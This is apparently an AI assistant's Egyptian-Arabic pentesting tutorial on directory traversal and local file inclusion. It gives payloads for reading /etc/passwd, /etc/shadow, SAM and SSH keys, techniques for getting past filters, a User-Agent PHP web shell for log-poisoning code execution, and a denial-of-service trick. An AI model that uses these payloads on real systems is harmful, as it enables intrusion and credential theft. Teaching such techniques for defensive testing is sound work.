 تمام، هشرحلك موضوع "Exploiting Directory Traversal Vulnerabilities" بعمق كـ Pentester، مع تركيز على الجانب العملي والأكواد والأوامر، وهحط الخلاصة بالعامية المصرية بعد كل جزء، وبعدين هعدلك كل السيناريوهات الممكنة للاستغلال.

---

### **1. مفهوم Directory Traversal Vulnerabilities بعمق**
"Directory Traversal" أو "Path Traversal" هي ثغرة بتحصل لما تطبيق (زي موقع ويب) بيسمحلك تتحرك خارج المجلد المفروض تكون فيه وتوصل لملفات أو مجلدات تانية على السيرفر. الفكرة إنك بتستغل إنبوت المستخدم (زي اسم ملف أو لينك) عشان تطلع من المكان المحدد وتبص على حاجات المفروض تكون مخفية.

- **ازاي بتحصل؟** لما التطبيق بياخد إنبوت منك (مثلاً اسم ملف عايز تشوفه) ويحطه مباشرة في دالة زي `open()` أو `include()` من غير ما يفحصه أو يحط حدود.
- **الهدف:** الوصول لملفات حساسة (زي `/etc/passwd` في Linux أو `C:\Windows\system32\config\SAM` في Windows).

**مثال بسيط:**
لو موقع بيستخدم كود زي:
```
$file = $_GET['file'];
readfile("/uploads/" . $file);
```
ودخلت في الـ URL: `?file=../../etc/passwd`، السيرفر هيحاول يقرا الملف ده بدل ما يفضل في مجلد `/uploads`.

**خلاصة بالعامية:**  
يعني كأنك في بيت حد وقالك "اقعد في الأوضة دي بس"، بس إنت لقيت طريقة تخرج من الأوضة وتشوف كل حاجة في البيت من غير ما يمنعك.

---

### **2. الجانب العملي: ازاي بنستغل الثغرة دي**
هنشرح الطرق الشائعة مع أمثلة عملية:

#### **أ. الوصول لملفات النظام**
الفكرة هنا إنك بتستخدم الرموز `../` (اللي معناها "ارجع مجلد لورا") عشان تطلع من المجلد الحالي وتوصل لجذر النظام.

- **مثال عملي:**
  لو في موقع بياخد اسم ملف من الـ URL زي:
  ```
  http://target.com/view.php?file=doc.txt
  ```
  جرب تعدل الـ URL كده:
  ```
  http://target.com/view.php?file=../../etc/passwd
  ```
  لو ظهرلك محتوى الملف (زي قايمة المستخدمين في Linux)، يبقى في ثغرة Directory Traversal.

- **أمر عملي كـ Pentester:**
  جرب مسارات زي:
  ```
  ../etc/passwd
  ../../etc/passwd
  ../../../etc/passwd
  ```
  زود عدد الـ `../` لحد ما توصل للملف، لأنك مش عارف المجلد الحالي بعيد قد ايه عن الجذر.

- **لو Windows:**
  جرب:
  ```
  ..\..\Windows\system32\config\SAM
  ..\..\Windows\win.ini
  ```

**خلاصة بالعامية:**  
الموقع لو سابك تكتب اسم الملف اللي عايز تشوفه وما حددش حدود، تقدر تكتبله "طلع برا وهاتلي أي حاجة أنا عايزها" ويجيبهالك.

#### **ب. تجاوز الفلاتر (Bypass Filters)**
كتير من المواقع بتحط فلاتر عشان تمنع الـ `../`، لكن الفلاتر دي ممكن تتخطى.

- **مثال عملي:**
  لو الموقع بيشيل الـ `../` من الإنبوت، جرب تشفير الـ URL (URL Encoding):
  ```
  http://target.com/view.php?file=..%2F..%2Fetc%2Fpasswd
  ```
  (`%2F` يعني `/`).

- **طريقة تانية:**
  استخدم مسارات متكررة أو حروف غريبة:
  ```
  ....//....//etc/passwd
  ..\/..\/etc/passwd
  ```

- **لو بيشيل الـ `../` مرة واحدة بس:**
  جرب:
  ```
  ....//etc/passwd
  ```
  لأن بعد ما يشيل `../` الأولاني، التاني هيفضل ويشتغل.

**خلاصة بالعامية:**  
الموقع لو بيقولك "ممنوع تطلع برا" بس بيفهم نصه كلامك، تقدر تلف عليه وتخليه يديك اللي إنت عايزه بطريقة ملتوية.

#### **ج. Local File Inclusion (LFI)**
لو الموقع بيستخدم الإنبوت في دالة زي `include()` أو `require()`، ممكن تستغل الثغرة عشان تجيب ملفات أو تنفذ كود.

- **مثال عملي:**
  لو URL كده:
  ```
  http://target.com/index.php?page=about.php
  ```
  جرب:
  ```
  http://target.com/index.php?page=../../etc/passwd
  ```
  لو ظهر الملف، يبقى في LFI.

- **استغلال أعمق:**
  لو عارف إن الموقع بيخزن Logs (زي Apache Logs)، جرب تحط كود PHP في الـ User-Agent بتاعك باستخدام Burp Suite:
  ```
  User-Agent: <?php system($_GET['cmd']); ?>
  ```
  وبعدين اطلب اللوج:
  ```
  http://target.com/index.php?page=../../var/log/apache2/access.log
  ```
  لو اللوج ظهر واتنفذ، افتح:
  ```
  http://target.com/index.php?page=../../var/log/apache2/access.log&cmd=whoami
  ```

**خلاصة بالعامية:**  
لو الموقع بيفتح ملفات بناءً على كلامك، ممكن تخليه يفتح حاجة مهمة أو حتى ينفذ حاجة إنت كاتبها في مكان تاني.

#### **د. الدمج مع ثغرات تانية**
لو لقيت Directory Traversal، ممكن تستخدمها مع ثغرات زي Command Injection أو File Upload.

- **مثال عملي:**
  لو رفعت شيل (`shell.php`) على الموقع قبل كده في `/uploads/shell.php`، جرب تجيبه بـ:
  ```
  http://target.com/view.php?file=../../uploads/shell.php
  ```

**خلاصة بالعامية:**  
الموقع لو سابك تتحرك فيه، تقدر تجمع بين حاجات كتير وتعمل شغل كبير بدل ما تبص بس.

---

### **3. سيناريوهات الاستغلال الممكنة كـ Pentester**
دلوقتي هعدلك كل السيناريوهات اللي ممكن تستغل بيها الثغرة دي:

1. **قراءة ملفات حساسة:**
   - `/etc/passwd` أو `/etc/shadow` (للمستخدمين والباسوردات في Linux).
   - `C:\Windows\system32\config\SAM` (للباسوردات في Windows).
   - ملفات الكونفيج (`/var/www/html/config.php`).

2. **Local File Inclusion (LFI):**
   - جلب ملفات الكود (`../../index.php`) عشان تشوف السورس.
   - تنفيذ كود من اللوجز (`../../var/log/apache2/access.log` مع User-Agent خبيث).

3. **Path Traversal مع Command Execution:**
   - لو الملف بيتنفذ، جرب تجيب شيل موجود (`../../uploads/shell.php`).
   - أو نفذ أوامر لو في دالة زي `system()` متضمنة.

4. **Bypass Authentication:**
   - لو الموقع بيعتمد على ملفات معينة للتحقق، جرب تجيبها أو تعدلها:
   ```
   ../../admin/config.php
   ```

5. **Data Exfiltration:**
   - جلب قواعد بيانات (`../../var/www/html/db_backup.sql`).
   - سرقة مفاتيح SSH (`../../root/.ssh/id_rsa`).

6. **Denial of Service (DoS):**
   - لو الموقع بيسمح بقراءة ملفات كبيرة جدًا (`../../dev/random`)، ممكن تعلقه.

7. **Privilege Escalation:**
   - لو وصلت لملفات بتصريح عالي (`/etc/shadow`)، ممكن تكمل استغلال يدوي.

---

### **نصيحة كـ Pentester:**
- استخدم **Burp Suite** عشان تجرب مسارات مختلفة وتشوف الردود.
- جرب تشفير الـ URL أو تضاعف الرموز لو لقيت فلاتر.
- ابحث عن ملفات شائعة (زي `config.php` أو `web.config`) بناءً على نوع السيرفر (Apache, IIS).
- لو لقيت LFI، دايمًا فكر في اللوجز أو ملفات مؤقتة كطريقة للتنفيذ.

لو عايز تفاصيل أكتر عن أي سيناريو أو أداة، قوللي!